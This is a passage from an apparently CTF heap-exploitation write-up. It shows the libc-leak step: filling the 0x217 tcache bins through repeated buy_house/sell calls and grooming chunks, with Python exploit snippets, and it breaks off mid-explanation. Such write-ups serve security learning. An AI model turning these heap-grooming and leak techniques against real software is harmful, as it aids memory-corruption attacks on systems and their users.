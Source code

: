 ### Leak
If we want to make the address of libc appear in heap, we should make the tcache bins of our size full. It is great that **calloc** does not obtain bin from tcache bins. So, we can do buy and sell operation for more then 7 times to fill tcache bins of our size up.
```
make tcache size 0x217 full
or i in range(0, 7):
   buy_house(7, 0x217, "\x00")
   sell(7)
```

![](./index_files/329286fc-7b53-416b-8f85-46d2e05f257c.jpg)

```
buy_house(2, 0x80, "x" * 0x10)
sell(2)
buy_house(0, 0x400, "\xaa" * 0x400)
buy_house(1, 0xa0, "\xbb" * 0xa0)
buy_house(2, 0x90, "\xcc" * 0x90)
buy_house(3, 0x90, "\xdd" * 0x90)
```
The distribution of the chunks is shown as follows.
